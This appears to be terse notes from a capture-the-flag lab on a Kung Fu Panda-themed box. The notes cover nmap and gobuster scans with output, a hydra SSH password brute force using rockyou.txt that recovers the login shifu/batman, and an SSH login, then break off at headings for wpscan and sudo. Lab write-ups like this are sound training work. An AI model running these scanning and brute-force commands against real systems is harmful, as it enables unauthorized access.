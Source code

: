 ### nmap
basic nmap scan 
```bash
$ nmap 10.10.99.186

Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-26 10:54 EDT
Nmap scan report for 10.10.99.186
Host is up (0.11s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8009/tcp open  ajp13
8080/tcp open  http-proxy
9999/tcp open  abyss

Nmap done: 1 IP address (1 host up) scanned in 61.99 seconds
```

ip:22 reveals KungFu Panda image
source reveals _shifu loves noodles_

run nmap -aggressive -T4/aggressive -p-/all ports 

```bash
nmap -A -T4 -p- 10.10.71.93
```

view _ip_:80
shifu loves noodles

### robots.txt
_ip_:robots.txt
reveals panda.thm

add panda.thm to etc/hosts
```bash
ip.ip.ip.ip panda.thm 
```

### gobuster
run gobuster on _ip_
```bash
gobuster dir -u http://10.10.99.186 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
reveals directories 
	wordpress
	flag
	
### hydra
hydra 
```bash
hydra -l shifu -P /usr/share/wordlists/rockyou.txt ssh://10.10.99.186 

```
reveal
```bash
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-02 09:17:19
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.153.168:22/
[STATUS] 181.00 tries/min, 181 tries in 00:01h, 14344223 to do in 1320:50h, 16 active
[22][ssh] host: 10.10.153.168   login: shifu   password: batman
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-02 09:18:53
```

ssh into shifu/batman


### 
wpscan


Sudo -l

